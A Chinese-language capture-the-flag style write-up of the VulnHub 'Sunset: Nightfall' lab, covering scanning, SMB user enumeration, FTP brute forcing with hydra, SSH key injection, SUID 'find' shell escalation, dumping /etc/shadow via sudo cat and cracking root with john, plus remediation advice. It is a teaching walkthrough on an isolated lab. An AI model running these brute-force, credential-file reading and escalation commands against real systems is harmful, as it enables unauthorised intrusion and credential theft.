# Sunset: Nightfall — VulnHub Writeup

- 靶機 / Target: Sunset: Nightfall (VulnHub, by whitecr0wz)
- 類型: Boot-to-Root, 初學者等級
- 日期: 2026-11-16

---

## 0. 摘要 (Summary)

本報告記錄對 Sunset: Nightfall 靶機的滲透測試全程，攻擊鏈如下：

1. **掃描**：netdiscover 找 IP、nmap 掃服務
2. **列舉**：enum4linux 列舉 SMB、FTP 服務
3. **取得立足點**：FTP 暴力破解 → 注入 SSH 公鑰 → SSH 登入
4. **提權**：利用 SUID binaries / sudo 權限提升到 root

最終取得 user flag 與 root flag 兩個 flag。

---

## 1. 環境設定 (Environment Setup)

| 項目 | 設定 |
|---|---|
| Hypervisor | VirtualBox |
| 攻擊端 | Kali Linux |
| 靶機 | Sunset: Nightfall |
| 網路 | Host-Only (`vboxnet0`, DHCP enabled) |
| 攻擊端 IP | 192.168.56.102 |
| 靶機 IP | 192.168.56.101 |

- 兩台 VM 在 VirtualBox、網路設定

- 攻擊端的 IP


> ### 疑問：
> **為什麼要在 VM 裡面跑 ?**<br>
> - **安全隔離（最重要）** : nightfall 是故意做得有漏洞的系統。你不會想把這種東西裝在自己真正的電腦上——萬一被利用、或它本身有惡意，受害的是你的主機。<br>
> - **它是打包好的完整系統** : nightfall 不是一個「程式」，而是一整台配置好的 Debian（含特定的錯誤設定：弱密碼、SUID find、過寬 sudo…）。<br>
>
> **為什麼要「同一個網路」？**<br>
> - IP 就是每台機器在網路上的「門牌號碼」。 兩台電腦要互相傳封包（Kali 要攻擊 nightfall），前提是它們能找到彼此、能把封包送到對方——就像你要拜訪朋友，得知道他家地址，而且你們要在同一個可到達的區域。
---

## 2. 網路掃描 (Network Scanning)

### 2.1 找出靶機 IP (netdiscover)
command : 
```bash
# 出同一個網段上有哪些活著的裝置（以及它們的 IP）。
sudo netdiscover -r 192.168.56.0/24
```
- 掃到的靶機 IP（output）


#### 靶機 IP：192.168.56.101 


### 2.2 Port / 服務掃描 (nmap)
command : 
```bash
# 找出它開了哪些服務
nmap -sC -sV -p- 192.168.56.101 -oN nmap.txt
```
output : 
```text
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         pyftpdlib 1.5.5
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MariaDB 5.5.5-10.3.15
```

### 開放服務分析

| Port | 服務 | 用途 / 下手點 |
|---|---|---|
| 21 | FTP (pyftpdlib 1.5.5) | 之後暴力破解的目標 |
| 22 | SSH (OpenSSH 7.9) | 最後登入用 |
| 80 | HTTP (Apache 預設頁) | 預設頁，優先度低（必要時再 dir-bust）|
| 139/445 | SMB (Samba 4.9.5) | 先從這裡列舉使用者 ⭐ |
| 3306 | MySQL (MariaDB) | 先記著，可能後面用 |

**觀察**：`smb-security-mode` 顯示 `account_used: guest`，代表 SMB 允許 guest 存取（不需要有效帳密、用「guest（訪客）」身分就連上了。），可藉此列舉系統使用者名稱；取得使用者名稱後即可對 FTP（21）進行暴力破解。
- output 截圖:


> ### 為什麼「訪客身分」就能列舉出使用者名稱？
> 即使只是訪客連線，SMB 背後的 RPC 服務還是會回答一些查詢，其中就包括「使用者資訊」。enum4linux 用的技巧叫 RID cycling
> **背景概念——SID 與 RID：**
> - Linux/Windows 每個使用者都有一個 SID（安全識別碼），長這樣：S-1-22-1-1000<br>
> - 最後那個數字（1000、1001…）叫 RID，是使用者的流水號，通常從 1000 開始依序發
>
> **RID cycling 的做法：** enum4linux 拿到這台的 SID 前綴後，就一個一個試 RID，反問伺服器：<br>
>- 「S-1-22-1-1000 是誰？」→ 伺服器回：「nightfall」<br>
>- 「S-1-22-1-1001 是誰？」→ 伺服器回：「matt」<br>
>因為 guest 被允許，伺服器就乖乖把 SID 對應的使用者名稱吐出來。

#### <span style="color:#e67e22">關鍵漏洞</span>：不該讓匿名使用者查到系統帳號清單。這台開放了 guest + 允許 RID 查詢，等於把「有效使用者名單」送給攻擊者。

---

## 3. 列舉 (Enumeration)

### 3.1 SMB 列舉 (enum4linux)
command : 
```bash
enum4linux -a 192.168.56.101
```
output : 
```text
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''       

S-1-22-1-1000 Unix User\nightfall (Local User)                                    
S-1-22-1-1001 Unix User\matt (Local User)
```

**觀察**：enum4linux 透過 RID cycling 列舉到兩個本機使用者 **nightfall**、**matt**。
- output截圖：


### 3.2 FTP 列舉（測試能否不用密碼就登入）
command : 
```bash
ftp 192.168.56.101
# Name: 輸入 anonymous
# Password: 不輸入 直接 Enter
```
output : 
```text
530 Anonymous access not allowed.
ftp: Login failed
```

- output 示意：


---

## 4. 取得立足點 (Initial Foothold)

### 4.1 FTP 暴力破解

用列舉到的使用者名稱，對 FTP 做字典攻擊：
```bash
# 例：hydra 對 FTP 爆破
hydra -l matt -P /usr/share/wordlists/rockyou.txt ftp://192.168.56.101 -t 16 -e nsr
```
output : 
```text
[21][ftp] host: 192.168.56.101   login: matt   password: cheese
```
- 破解過程：


取得 FTP 帳密：login: **matt**   ,password: **cheese**
#### <span style="color:#e67e22">關鍵漏洞</span>：真實系統不會讓你無限次猜密碼。但這台的 FTP 沒有帳號鎖定（連錯 5 次就鎖住）、沒有 fail2ban（同一 IP 連錯就封鎖）、沒有速率限制真正擋住 attacker（它只是每次失敗延遲一下）
> #### FTP = File Transfer Protocol（檔案傳輸協定）
> 一個用來在你和遠端伺服器之間「上傳 / 下載 / 管理檔案」的協定。 預設走 21 號 port。
>
> **知道 FTP 密碼（matt / cheese）可以幹嘛？**<br>
> 用 matt 身分登入 FTP，就能讀/寫 matt 權限範圍內的檔案（這台是 matt 的家目錄）。<br>
> 但 FTP 密碼的價值不是「傳檔案」，而是它給了你「在 matt 家目錄寫檔」的能力，而這個能力透過 SSH key 注入，變成了真正進入系統的立足點。

思路：FTP 可寫入某使用者的家目錄 → 在家目錄建 `.ssh/`，把自己的公鑰放進 `authorized_keys`，就能免密碼 SSH 登入。
command(Kali 終端機) : 
```bash
# 1. 本機產生金鑰對
ssh-keygen -t rsa -f ~/matt_rsa -N ""
# 2. 把公鑰複製成 authorized_keys 這個名字（SSH 認的檔名）
cp ~/matt_rsa.pub ~/authorized_keys
```

output(Kali 終端機) : 
```text
The key's randomart image is:
+---[RSA 3072]----+
|      ..+o.B.Eoo.|
|     . . +* Xoo.=|
|    . . . o=.X++o|
|     .   ..*o.o..|
|      . S = *  . |
|       o = * .  .|
|        . +    . |
|           .. .  |
|            .o   |
+----[SHA256]-----+
```
**以上步驟做完，回到ftp視窗，建立.ssh並上傳**
command(FTP 視窗內（ftp>）) : 
```bash
mkdir .ssh
cd .ssh
put authorized_keys
ls -la
```

output(FTP 視窗內) : 
```text
local: authorized_keys remote: authorized_keys
229 Entering extended passive mode (|||52351|).
125 Data connection already open. Transfer starting.
100% |**********************|   563        3.01 MiB/s    00:00 ETA
226 Transfer complete.
563 bytes sent in 00:00 (155.70 KiB/s)
```
> #### 將自己生成的金鑰對丟進去可以幹嘛？
> **SSH 有兩種登入方式 :**
> - 密碼登入：輸入帳號 + 密碼
> - 金鑰登入：用一對「金鑰」，完全不用密碼
>
> 我們現在就是在將我們自己生成的金鑰掛到對方的門上，之後我們就可以用這份金鑰進去。（伺服器的設計上是會有檔案列著 **哪些金鑰** 可以登入某個帳號）

### 4.3 SSH 登入
command(輸入在 Kali 終端機中)
```bash
ssh -i ~/matt_rsa matt@192.168.56.101
```
output:
```text
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Linux nightfall 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Aug 28 18:31:27 2019 from 192.168.1.182
```

- 4.2 ~ 4.3的結果示意圖

 可以看到Kali終端機最後成功登入matt

實際的流程：
```text
① Kali：「我要用金鑰登入 matt，這是我的公鑰指紋」
          ↓
② 靶機 SSH 伺服器：去翻 /home/matt/.ssh/authorized_keys
   → 找到你注入的那把公鑰 ✅（因為 4.2 你用 FTP 塞進去了）
          ↓
③ 伺服器出題：「你真的有配對的私鑰嗎？用它簽個名給我看」
          ↓
④ Kali：用 ~/matt_rsa（私鑰）簽名回應
          ↓
⑤ 伺服器：用 authorized_keys 裡的公鑰驗證簽名 → 吻合 ✅
          ↓
   放行，給你 matt 的 shell —— 全程不用密碼
```

---

## 5. 權限提升 (Privilege Escalation)

### 5.1 matt → nightfall（SUID /scripts/find）
command :
```bash 
find / -perm -u=s -type f 2>/dev/null # 找 SUID binaries
```
output : 
```text
/scripts/find                                                      
/usr/bin/sudo                                                      
/usr/bin/pkexec                                                    
/usr/bin/newgrp                                                    
/usr/bin/passwd                                                    
/usr/bin/mount                                                     
/usr/bin/chfn                                                      
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
```

**觀察**：會看到一個不尋常的 /scripts/find（有 SUID 權限）。

### 5.2 利用 SUID find 取得 nightfall 權限
command
```bash
cd /scripts
./find . -exec /bin/sh -p \; -quit
id       
```
output:
```text
uid=1001(matt) gid=1001(matt) euid=1000(nightfall) egid=1000(nightfall) groups=1000(nightfall),1001(matt)
```
**原理**：find 有 SUID 且屬主是 nightfall，-exec 執行的命令會以 **nightfall 權限**跑，-p 保留提升的權限。

### 5.3 取得第一個 flag (user.txt)
command : 
```bash
find / -name user.txt 2>/dev/null #找出 flag 檔案在哪
cat /home/nightfall/user.txt    # 找到後 cat 它
```
output :
```text
/home/nightfall/user.txt
97fb7140ca325ed96f67be3c9e30083d
```
 - 結果示意圖：


> #### 這個 flag 代表什麼
> 在 boot-to-root CTF 裡：
>- **user.txt** = 證明你拿到了一般使用者層級的存取（第一階段攻破）
>- **root.txt** = 證明你拿到了完整 root（最終目標）


### 5.4 取得穩定 nightfall shell
```bash
# 這邊是原本進入matt的終端機
mkdir -p /home/nightfall/.ssh
cp /home/matt/.ssh/authorized_keys /home/nightfall/.ssh/authorized_keys
chmod 700 /home/nightfall/.ssh
chmod 600 /home/nightfall/.ssh/authorized_keys

# 接下來開啟另一個終端機輸入以下指令
ssh -i ~/matt_rsa nightfall@192.168.56.101
id

sudo -l
```
```text
uid=1000(nightfall) gid=1000(nightfall) groups=1000(nightfall),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner)

User nightfall may run the following commands on nightfall:
    (root) NOPASSWD: /usr/bin/cat
```
- 結果示意圖：


### 完整提權：破解密碼拿真正的 root shell：
在 nightfall 讀 shadow:
```bash
sudo /usr/bin/cat /etc/shadow
```
- 結果展示：


接下來在 kali 裡面跑：
```bash
ssh -i ~/matt_rsa nightfall@192.168.56.101 'sudo /usr/bin/cat /etc/shadow' > shadow.txt
grep '^root:' shadow.txt > hash.txt
cat hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john --show hash.txt
```
會看到 root 的密碼是 **miguel2**


接下來回到 nightfall session 變 root 拿 flag
```bash
su root          # 密碼輸入：miguel2
id
```
可以看到已經成功變成 root:


接下來要找 flag:
```bash
ls -la /root
cat /root/<看到的 flag 檔名>    # 檔名是"root_super_secret_flag.txt"
```
- 結果展示：


---

## 6. 修補建議 (Remediation)

| 弱點 | 修補建議 |
|---|---|
| FTP 弱密碼可爆破 | 強制強密碼、限制登入嘗試、停用不必要的 FTP |
| FTP 可寫入家目錄導致 SSH key 注入 | 限制 FTP 可寫範圍、chroot、分離 FTP 與系統帳號 |
| 不當的 sudo / SUID 設定 | 移除不必要的 sudo 權限與 SUID 位元，遵循最小權限原則 |

---
## 整體架構流程圖

## Reference (參考來源)
- Sunset: Nightfall Walkthrough, Hacking Articles
  https://www.hackingarticles.in/sunset-nightfall-vulnhub-walkthrough/
- VulnHub: Sunset: Nightfall (by whitecr0wz)